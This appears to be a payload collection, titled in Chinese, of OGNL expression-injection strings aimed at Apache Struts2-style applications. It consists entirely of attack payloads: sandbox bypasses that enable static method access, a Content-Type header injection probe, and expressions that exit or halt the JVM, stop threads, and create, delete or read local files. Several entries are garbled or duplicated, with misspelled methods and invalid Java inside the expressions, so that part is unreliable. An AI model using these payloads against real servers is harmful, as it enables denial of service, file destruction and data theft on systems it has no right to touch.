 # payload 汇总

* %{#a=@java.lang.Thread@currentThread().getThreadGroup(),#b=#a,#c=#b.getParent(),#env = '',#while = "#b=#c,#c=#c.getParent(),(#up)(#env)",#up = "(#c != null)?(#while)(#env):1",#b.stop()}
* Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
* %{#_memberAccess.allowStaticMethodAccess=true,   #context["xwork.MethodAccessor.denyMethodExecution"]=false,@sun.misc.Unsafe@getUnsafe()}
* %{@java.lang.System@getProperty()}
* %{ #_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.ThreadGroup@destory()}
* %{ #_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Thread@sleep()}
* %{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,@com.atlassian.core.util.ClassHelper@instantiateClass(a,b)}
* %{#a = new java.lang.ThreadLocal(@Override  protected ConnectioninitialValu(){return createConnection();})a.initialValue()}
* %{#a = @java.lang.Package@getPackage("")}
* %{#a = @java.lang.ClassLoader@a}
* %{#_memberAccess.allowStaticMethodAccess=true,   #context["xwork.MethodAccessor.denyMethodExecution"]=false,@sun.misc.Unsafe@getUnsafe()}
* %{@java.lang.System@getProperty()}
* %{ #_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.ThreadGroup@destory()}
* %{ #_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Thread@sleep()}
* %{@java.lang.Shutdown@exit()}
* %{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,#a = new java.lang.ThreadLocal(@Override  protected Connection initialValue() { return createConnection();})a.initialValue()}
* %{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,#a = @java.lang.Package@getPackage("")}
* %{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,#a = @java.lang.ClassLoader@a}
* %{#_memberAccess.allowStaticMethodAccess=true,     #context["xwork.MethodAccessor.denyMethodExecution"]=false,#a = @com.atlassian.core.util.ClassLoaderUtilsloadClass@loadClass(a,b)}
* %{@java.lang.Runtime@getRuntime().exit(1)} 
* %{@java.lang.Runtime@getRuntime().halt(1)} 
* %{@java.lang.System@exit(1)} 
* %{@java.lang.System@getProperty('os.name')} 
* %{#f=new java.io.File("C:\\Users\\hp\\Desktop\\关键字1.txt"),#f.delete()}
* %{#f=new java.io.FileReader("C:\\Users\\hp\\Desktop\\关键字.txt"),#a = new char[1024],#f.read(#a,0,1024),new java.lang.String(#a)}
* %{(new java.io.File("C:\\Users\\hp\\Desktop\\关键字2.txt")).createNewFile()}
* %{@java.lang.Thread@currentThread().stop()}
* %{#a = @com.sun.management.DiagnosticCommandMBean}
* %{#a = new com.sun.management.DiagnosticCommandMBean()}
* %{#a = @org.apache.catalina.session.JMSContext}
* %{#a = new org.apache.catalina.session.JMSContext()}
* %{#a = new javax.sql.rowset.RowSetMetaDataImpl()}
* %{#a = @javax.sql.rowset.RowSetMetaDataImpl}
* %{#a = new java.nio.channels.Pipe()}
* %{#a = @java.nio.channels.Pipe}
* %{#a = @sun.invoke.Empty}
* %{#a = new sun.invoke.Empty()}
* %{#a = new java.util.zip.DeflaterInputStream()}
* %{#a =@java.util.zip.ZipFile@CENATT }
* %{#a =@java.net.Authenticator}
* %{#a =new java.net.Authenticator()}
* %{#a =@sun.misc.Unsafe@getUnsafe()}
* %{#a =new java.util.concurrent.CountDownLatch()}
* %{#a =@java.util.concurrent.CountDownLatch}